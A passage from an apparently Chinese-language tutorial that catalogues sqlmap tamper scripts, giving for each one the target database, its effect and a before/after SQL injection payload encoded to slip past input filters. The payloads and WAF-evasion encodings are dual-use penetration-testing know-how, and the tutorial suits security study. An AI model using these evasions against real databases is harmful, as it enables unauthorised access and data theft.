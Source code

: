 space2morehash.py

适用数据库：MySQL >= 5.1.13
测试通过数据库：MySQL 5.1.41
作用：将空格替换为#，并添加一个随机字符串和换行符
使用脚本前：tamper('1 AND 9227=9227')
使用脚本后：1%23ngNvzqu%0AAND%23nVNaVoPYeva%0A%23lujYFWfv%0A9227=9227

apostrophenullencode.py

适用数据库：ALL
作用：用非法双字节Unicode字符替换单引号
使用脚本前：tamper("1 AND '1'='1")
使用脚本后：1 AND %00%271%00%27=%00%271

appendnullbyte.py

适用数据库：ALL
作用：在有效载荷的结束位置加载null字节字符编码
使用脚本前：tamper('1 AND 1=1')
使用脚本后：1 AND 1=1%00

chardoubleencode.py

适用数据库：ALL
作用：对给定的payload全部字符使用双重url编码（不处理已经编码的字符）
使用脚本前：tamper('SELECT FIELD FROM%20TABLE')
使用脚本后：%2553%2545%254C%2545%2543%2554%2520%2546%2549%2545%254C%2544%2520%2546%2552%254F%254D%2520%2554%2541%2542%254C%2545

unmagicquotes.py

适用数据库：ALL
作用：用一个多字节组合%bf%27和末尾通用注释一起替换空格
使用脚本前：tamper("1' AND 1=1")
使用脚本后：1%bf%27 AND 1=1--

randomcomments.py

适用数据库：ALL
作用：用注释符分割sql关键字
使用脚本前：tamper('INSERT')
使用脚本后：I/**/N/**/SERT

#### 0x03 附录：

![img](https://img2018.cnblogs.com/blog/1358580/201906/1358580-20190605194338464-982309411.png)

#### 0x04 在熟悉了tamper脚本之后，我们应该学习tamper绕过脚本的编写规则，来应对复杂的实际环境。

